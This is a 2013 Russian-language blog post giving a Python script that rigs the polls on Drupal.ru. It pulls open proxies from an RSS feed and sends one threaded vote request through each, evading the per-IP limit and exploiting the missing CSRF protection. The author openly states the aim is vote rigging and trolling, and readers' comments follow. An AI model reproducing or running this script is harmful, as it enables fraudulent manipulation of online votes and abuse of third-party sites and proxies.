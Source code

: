 ```yaml
---
layout: post
title:  "Накручивание голосований на Друпал.ру"
date:   "2013-03-04 05:46:40"
permalink: /2013/03/04/1/
categories: Питон Друпал Программирование
---
```


Простой скрипт на Питоне, накручивающий голосовалки на Друпал.ру:

```python
import threading
import urllib
import re
import sys
import time
import random

try:
    _, nid, variant = sys.argv[:3]
except:
    print "Usage: python poll.py nid variant"
    exit(1)


PROXY_PATTERN = r"\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}:\d{2,5}"
POLL_URL = "http://www.drupal.ru/inner_poll/vote_js"

PROXY_URLS = (
    "http://feeds.feedburner.com/best-proxy/oKhv",
)

proxies = []
for url in PROXY_URLS:
    try:
        proxies.extend(re.findall(PROXY_PATTERN, urllib.urlopen(url).read()))
    except:
        continue

params = {
    "n": nid,    # node id
    "v": variant # variant id ("0,1,n" if multiple)
}
data = urllib.urlencode(params)

threads = []

print len(proxies), "proxies =)"
time.sleep(3)

def job(p):
    time.sleep(random.randint(0, 60))
    urllib.urlopen(POLL_URL, data=data, proxies={'http': 'http://' + p})

for p in proxies:
    t = threading.Thread(target=job, args=(p, ))
    try:
        t.start()
    except:
        pass
```

Запускать так:

```python
python poll.py nid variant
```

, где nid — номер ноды, variant — номер варианта ответа (нумерация с
нуля) либо варианты через запятую.

Комментарии к коду.

1. На Друпал.ру голосование разрешено всем, даже анонимам.
2. Единственное ограничение на голосование — IP должен быть уникальным
   в пределах номера ноды.
3. Запрос осуществляется методом POST с передачей двух переменных:
   номера ноды и варианта. Про CSRF-токены не, не слышали.
4. Каждый запрос делаем через свой прокси. Список прокси берем из
   RSS-ленты сайта http://best-proxy.ru/ Лента, как вы заметили,
   пропущена через Фидбернер, т.к. создатели сайта огораживаются от
   граббинга.
5. Каждый запрос выделяем в свой тред.
6. КПД проксей где-то 10%, что тоже неплохо.

Область применения скрипта — накрутка и троллинг.


#### Комментарии из старого блога


**03/10/13 RxB:** Ну зачем... Теперь все будут знать


**03/10/13 Иван Гришаев:** Да и хрен с ним. Во-первых, на Д.ру одни
пхп-шники, во-вторых, best-proxy.ru больше не обновляется, прокси из
РСС-ленты не работают.


**03/25/13 Александр Мальков:** Но, все равно - спасибо. Интересный
  подход.
